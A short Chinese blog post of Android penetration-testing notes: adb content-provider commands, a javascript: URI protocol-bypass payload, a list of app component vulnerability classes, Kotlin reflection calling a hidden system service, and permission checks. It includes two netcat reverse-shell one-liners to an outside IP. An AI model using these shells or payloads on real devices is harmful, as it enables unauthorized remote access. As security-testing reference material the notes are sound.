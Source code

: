 ```yaml
---
title: 小知识
slug: blog/posts/discussion-1/
number: 1
url: https://github.com/CloveIso/notes/discussions/1
created: 2024-11-19
updated: 2024-11-19
authors: [CloveIso]
categories: 
  - 01-博客
labels: []
comments: true
---
```


1、应用对应的uid  /data/system/packages.list

2、adb操作provider

```
content query --uri content://icc/adn 
content delete --uri content://settings/settings/pointer_speed
content insert --uri content://settings/settings --bind name:s:my_number --bind value:i:2
```

3、android 反弹shell

```
rm /data/local/tmp/f;mkfifo /data/local/tmp/f;cat /data/local/tmp/f|/bin/sh -i 2>&1|nc 172.22.228.2 2222 >/data/local/tmp/f
nc 172.22.228.2 2222|/bin/sh|nc 172.22.228.2 6666
```

4、查看进程状态和uid状态

```
dumpsys activity processes | grep UidRecord -C 2
```

5、协议绕过

javascript://mall.vivo.com/%0D%0Awindow.location.href='http://172.25.100.118/js_poc.html'

6、android漏洞总结

```
1、activity
越权绕过、钓鱼欺诈/Activity劫持、隐式启动Intent包含敏感数据、拒绝服务攻击、intent重定向
2、service
权限提升漏洞、service劫持、消息伪造、拒绝服务攻击
3、broadcast reciver
敏感信息泄漏漏洞、权限绕过漏洞、消息伪造、拒绝服务
4、provider
信息泄露、sql注入、目录遍历

```

7、调用系统服务

```kotlin
try {
    val getServiceMethod = Class.forName("android.os.ServiceManager").getMethod(
        "getService",
        String::class.java
    )
    val binder = getServiceMethod(null, "companiondevice") as IBinder
    val clsStub = Class.forName("android.companion.ICompanionDeviceManager\$Stub")
    val asInterfaceMethod = clsStub.getDeclaredMethod("asInterface", IBinder::class.java)
    val service = asInterfaceMethod(null, binder)
    val clsProxy = Class.forName("com.vivo.framework.vivo4dgamevibrator.IVivo4DGameVibratorService\$Stub\$Proxy")
    val testMethod = clsProxy.getDeclaredMethod(
        "dualVibrate", // change the method name
        Float::class.java, Int::class.java, Long::class.java, Long::class.java // method args
    )
    testMethod(service, 10)
} catch (e: Exception) {
    e.printStackTrace()
}
```

8、查看权限等级

```
pm list permissions -f (经常报错)
dumpsys package | grep -F "Permission [android.permission.DEVICE_POWER]" -C 3
```

